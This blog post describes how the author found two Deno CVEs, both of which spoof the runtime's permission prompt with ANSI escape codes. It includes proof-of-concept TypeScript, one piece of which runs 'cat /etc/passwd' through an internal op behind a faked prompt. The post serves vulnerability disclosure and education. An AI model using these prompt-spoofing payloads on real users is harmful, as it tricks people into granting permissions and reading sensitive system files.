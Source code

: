 ```yaml
---
title: twice-around ansi injection in deno
description: permission prompts are wonderful, but the modern terminal is powerful too.
emojis: 🦕 🚫 📟
date: 2023-03-25
slug: deno-ansi-injection
---
```


Deno is a wonderful project, and I'm a big fan. I've been following the project for a few years now, and it is one of my favourite scripting runtimes, even more than python.
It's a great way to run TypeScript (and, unfortunately, JavaScript) code on the server side, and its package model + permission system proves extremely powerful.

However, the project for me served as a good start on my first few CVEs.

## Deno's permission system

Deno, by default, is secure. Deno doesn't make guarantees on runtime resources (CPU, RAM), but it does make guarantees on external access or permenant storage.

For example, if a malicious script you ran (maybe `deno run https://example.com/malicious-script.ts`) tried to access the file system, it would be denied. This is because Deno's default permissions don't allow for:
- network access
- file system access
- environment access
- arbitrary command execution
- ffi access
- and even fingerprinting (system apis and disables high resolution timers)

However, sometimes you *want* a script to have these permissions, so deno treats you with a prompt. For example, running `deno run https://example.com/grab-a-cat-pic.ts`, which grabs pictures of cats from an `example.com` API, would prompt you with:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

This is a wonderful feature, and I'm glad it exists. It makes working with arbitrary scripts much safer, and it's a great way to ensure that you're not running malicious code.
Unfortunately, it's not perfect.

## by accident

I was playing around with Deno's web workers. Web workers allow you to run code in a separate thread,
and they're a great way to do things like offload CPU intensive tasks to a separate thread, or to run code in a separate thread without blocking the main thread.

At the time, I was trying to fetch some data from my main file asynchronously, and wanted to see how well it worked with web workers.

```ts title=worker.ts
console.log("hello from worker");
```

```ts title=main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/cat-pics");
```

```sh
$ deno run --allow-net main.ts
```

This worked great! I was able to fetch data from the internet, and I was able to run code in a separate thread.

However, when running it again, I forgot to include `--allow-net`, leading to this interesting prompt:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
hello from worker
```

At first, I didn't think much of it. I simply assumed the web worker was just running after, and the network request took a bit to kick in, and that it was just printing out the message.

However, from my previous work with direct ANSI codes (as I wanted to know how terminal colors were displayed), I knew that you could use ANSI codes to move the cursor around, and I knew that you could use ANSI codes to clear the screen.

So, I decided to try it out.

```ts title=worker.ts
console.clear();
console.log(`
┌ ⚠️  Deno requests net access to "deno.land".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
`);
```

```ts title=main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/malicious-fetch-fingerprint");
```

```sh
deno run main.ts
```

As predicted, the prompt was cleared, and the message was printed out. This simple trick allowed me to spoof the prompt, and it was a great way to get a user to accidentally grant permissions to a malicious script.

This CVE is now [GHSA-mc52-jpm2-cqh6](https://github.com/denoland/deno/security/advisories/GHSA-mc52-jpm2-cqh6), or [CVE-2023-22499](https://security.snyk.io/vuln/SNYK-RUST-DENO-3233636) (snyk).

## on purpose

Around this time, I recently learned that deno had internal methods (accessible by `Deno[Deno.internal]`).

Then, looking at the permission prompt (from my previous CVE), I noticed that it can take a number of parameters on the rust side, and that it occasionally exposes these parameters to the user.

Here was the template for the permission prompt:

```
┌ ⚠️  Deno requests ${type} access to ${scope}.
├ Requested by `${api}` API
├ Run again with --allow-${type} to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

`type` and `scope` are both tightly controlled, and are only ever set to a few values. However, `api` is not. It's set to whatever the API is that is requesting the permission.

For ease of developer convenience, the Deno maintainers made this configurable, and allowed you to set the `api` parameter to whatever you wanted, on the TypeScript side.

This was hidden in `op` functionality, specifically in `op_spawn_child` and `op_kill`, where `op_spawn_child` works on `--unstable` and `op_kill` is configured to give access to all run permissions.

```ts
const boldANSI = "\u001b[1m" // bold
const unboldANSI = "\u001b[22m" // unbold

const prompt = `┌ ⚠️  ${boldANSI}Deno requests run access to "echo"${unboldANSI}
├ Requested by \`Deno.Command().output()`

const moveANSIUp = "\u001b[1A" // moves to the start of the line
const clearANSI = "\u001b[2K" // clears the line
const moveANSIStart = "\u001b[1000D" // moves to the start of the line

Deno[Deno.internal].core.ops.op_spawn_child({
    cmd: "cat",
    args: ["/etc/passwd"],
    clearEnv: false,
    env: [],
    stdin: "null",
    stdout: "inherit",
    stderr: "piped"
}, moveANSIUp + clearANSI + moveANSIStart + prompt)
```

Once again, this allowed me to spoof the prompt, providing another way to get a user to accidentally grant permissions to a malicious script.

This is now [GHSA-vq67-rp93-65qf](https://github.com/denoland/deno/security/advisories/GHSA-vq67-rp93-65qf), or [CVE-2023-28450](https://nvd.nist.gov/vuln/detail/CVE-2023-28450)

## tips

dig into stuff, if it looks interesting, and try it out. You never know what you might find.
